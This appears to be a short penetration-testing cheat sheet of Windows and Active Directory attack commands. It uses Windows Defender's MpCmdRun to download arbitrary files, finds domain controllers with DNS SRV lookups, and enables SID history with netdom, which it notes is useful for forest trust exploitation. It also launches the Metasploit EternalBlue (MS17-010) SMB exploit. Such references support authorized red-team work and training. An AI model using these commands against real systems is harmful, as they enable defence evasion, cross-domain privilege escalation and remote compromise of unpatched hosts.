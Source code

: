 ## windows download file with windows defender
```
mpcmdrun.exe -DownloadFile -url <url> -path <result_file>
```

% windows, active directory, dns

## find AD IP - show domain name and dns
```
nmcli dev show <interface>
```

## nslookup AD - domain
```
nslookup -type=SRV _ldap._tcp.dc._msdcs.<domain_name>
```

% windows, active directory

## enable sid history
Enable history on source domain for target domain (useful for forest extra SID exploitation)
```
netdom trust <source_domain> /d:<target_domain> /enablesidhistory:yes
```

% windows, cve
## windows eternal blue - smb - ms17-010
```
msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue"
```

= interface: eth0
